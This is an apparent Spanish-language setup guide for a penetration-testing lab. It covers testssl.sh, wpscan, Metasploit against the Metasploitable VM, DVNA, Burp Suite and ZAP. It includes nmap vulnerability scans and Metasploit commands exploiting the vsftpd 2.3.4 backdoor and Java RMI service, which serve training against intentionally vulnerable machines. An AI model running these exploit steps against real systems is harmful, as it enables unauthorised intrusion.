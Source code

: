     sudo apt install testssl.sh
    
## wpscan

    sudo apt install ruby-dev ubuntu-dev-tools
    sudo gem install wpscan

Obtener una API KEY en https://wpscan.com/api, es conveniente guardarla en un archivo, por ejemplo wpscan.key con la forma KEY=xxxxxxx

    . wpscan.key
    wpscan --url $TARGET --api-token="$KEY"
    
## metasploit + metasploitable

Obtener la virtual de metasploitable en https://information.rapid7.com/download-metasploitable-2017.html y poner en marcha.

Obtener una virtual Kali en https://www.kali.org/get-kali/, ya sea instalando o bajando la VM y poner en marcha.

En una terminal obtener los servicios vulnerables:

    nmap -v --script vuln -p 21,1099 $METASPLOITABLE_IP
    
En la misma u otra terminal, para el puerto 21 (ftp), explotar:    
    
    msfconsole
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOSTS $METASPLOITABLE_IP
    exploit
    
Luego, para rmi (1099) igual pero con otro exploit:

    use exploit/multi/misc/java_rmi_server

Más información en https://docs.rapid7.com/metasploit/msf-overview/

## Proxies interceptores

Proyecto de referencia

    docker run --name dvna -p 9090:9090 -d appsecco/dvna:sqlite


### burpsuite

Bajar de https://portswigger.net/burp/releases el primer "Stable" habiendo elegido "Community Edition" (burpsuite_community_linux_v2022_12.sh)

    sh /home/iot/snap/firefox/common/Downloads/burpsuite_pro_linux_v2022_11_2.sh
    
Instalar en /home/iot/bin/BurpSuiteCommunity, no crear symlinks, ejecutar con:

    /home/iot/bin/BurpSuiteCommunity/BurpSuiteCommunity    

### zap proxy
